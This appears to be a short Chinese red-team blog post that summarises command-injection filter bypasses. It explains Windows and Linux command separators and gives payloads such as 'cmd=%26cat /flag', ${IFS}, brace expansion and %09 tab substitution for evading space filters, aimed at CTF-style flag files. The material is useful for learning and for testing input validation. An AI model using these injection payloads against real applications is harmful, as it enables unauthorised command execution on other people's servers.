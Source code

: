 #  命令执行漏洞绕过方法总结   
原创 LULU  红队蓝军   2024-11-22 10:01  
  
# 命令执行漏洞绕过方法总结  
## 操作系统管道符   
### Windows系统管道符  
```
|  :直接执行后面的语句,|前面的命令结果作为后面命令的参数
|| :前面的命令执行成功，则后面的命令不会执行；前面的命令执行失败，则后面的命令执行
&  :前面和后面命令都要执行，无论前面真假。注意：使用的时候要把&进行URL编码为%26才能正常执行cmd=%26cat /flag
&& :如果前面为假，后面的命令也不执行，如果前面为真则执行两条命令

```  
### linux系统管道符  
```
|、||、&、&&这四种管道符都存在且用法和Windows系统下一样

；作用和&一样，只是不用%26

```  
## 绕过：   
### 空格绕过  
  
**1、${IFS}**  
  
${IFS} 是一个环境变量，代表内部字段分隔符（Internal Field Separator）。在大多数情况下，它的默认值是空格、制表符（tab）和换行符  
  
示例：  
```
1、cat${IFS}flag.txt
2、ls${IFS}-la

```  
  
**2、利用大括号**  
```
{cat,flag.txt}

```  
  
**3、%09绕过** （php环境）  
  
%09 是一个表示制表符（Tab 键）的 ASCII 码，可以用于空格过滤绕过。  
```
cat%09flag.txt  等同于 cat<Tab>flag.txt

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v5elNmt2sdpVHoGK3ia4TianBNvM0V1gbBy7hI4VCib4h1cP5UrRbibDJFM1vFs0r1iavjujjqaJMWibTicA/640?wx_fmt=png&from=appmsg "")  
  